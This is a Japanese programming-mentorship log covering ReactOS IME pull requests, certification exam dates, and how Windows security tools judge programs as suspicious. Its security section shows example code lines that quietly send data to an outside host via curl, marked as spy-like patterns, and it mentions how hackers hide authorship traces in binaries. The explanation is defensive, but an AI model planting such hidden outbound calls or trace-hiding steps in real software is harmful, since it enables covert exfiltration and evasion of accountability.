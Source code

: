 # 2023-02-26

こんにちは

こんにちは

進捗報告。ReactOSのPR #5075 がマージされた。

- https://github.com/reactos/reactos/pull/5075

これでWM_IME_SYSTEM:IMS_UPDATEIMEUIのメッセージ生成が完了。

PR #5105 で未確定文字列の修正が入る予定だ。

- https://github.com/reactos/reactos/pull/5105

次の基本情報の試験は何月にありますか？

現状申し込みできるのだと10月の秋季試験ですね

ITパスポートの試験は何月ですか？

結構すぐ(具体的には3月の前半)にあるようです

早めに受けておくことをオススメします。

さて、Windowsの脅威検出アルゴリズムの一部は、ブラックリスト・グレーリストで実装されている。
例えば、CreateRemoteThread/QueueUserAPCを使用するプログラムは、一般に怪しいと思われる。

system("curl.exe https://example.com?info=1234...");
や
ShellExecuteA(NULL, "curl.exe", "https://example.com?info=1234...", NULL, SW_HIDE);
を実行するコードは、外部に情報を送信しているのではないかと疑われる（スパイ容疑）。

管理者権限でDeleteFileを実行するコードは、システムを破壊しているのではないかと疑われる。

途中で操作不能になるようなプログラムは、ウイルスと疑われても仕方ない。
また、アプリでは使えない「NGワード」がいくつかあるので注意が必要だ。
すぐわかるだろうが、「ウイルス」とか「身代金」などといった言葉はアプリ内では使えない。

疑われたプログラムは、ウェブから排斥される傾向にある。
また、疑われるのはプログラムだけでなく、それを作成した作成者も疑われることになる（作成者の痕跡が残っていた場合）。
そのような場合、作成者はソフトウェア製品に対する製造責任が問われることになる。
普通にMSVCでビルドしたときは、バイナリーにユーザー名やテレメトリーが埋め込まれるので、作成者の痕跡が残ることになる。
ハッカーはユーザー名に「user」を使ったり、わざわざLinux上でEXEを作ったりしている。

セキュリティソフトで検体をスキャンすると陽性か陰性かを判定してくれる。
コロナウイルスのPCR検査と同じように、陽性には偽陽性（false positive）が含まれている。
陽性でも脅威がない場合や、陰性でも脅威がある場合がある。
ファイルが陽性かどうかを確かめるときは、VirusTotalというサイトにアップロードするといい。

- VirusTotal: https://www.virustotal.com

これは複数のセキュリティソフトで検査した結果を表示してくれる。
ただし、アップロードしたファイルは公開されるので注意。

攻撃者やバグハンターは、リストにない攻撃手法を発見しようとしている。
発見したら、彼らはそのPoCをダークウェブで公開・販売したり、バグバウンティの報奨金を獲得する。

日本では、2011年よりウイルス作成罪・所持罪が発効した。
個人は正当な理由なくウイルスを作成・所持できないことになっている。
日本の法律ではセキュリティ会社などに入らなければウイルス検体を扱うことはできない。

さて、プログラミングにおいて中核となる「コア」な技術には名前が付いている。
文字列処理、ファイル入出力、ソートアルゴリズム、正規表現、音声入力、音声認識、画像認識、動画再生、音声合成、文字認識、暗号化、ソケット通信、3Dグラフィック、GPS、探索アルゴリズム、データベースなどなど。
コア技術の力を借りると、自分のプログラムをより強力にすることができる。

知りたい技術の名前を検索するとすぐにサンプルコードを見つけることができる。
例えば、音声合成は英語で「speech synthesis」だから、GitHubでspeech-synthesisを検索すると音声合成のコードが大量に見つかる。

【課題】とりあえず自分で作れるアプリを製作し、GitHubでリリースせよ。

今日はここまで。

了解です

意外と課題の幅が大きくて難しそうです...

---

[戻る](2023-02-19.md)
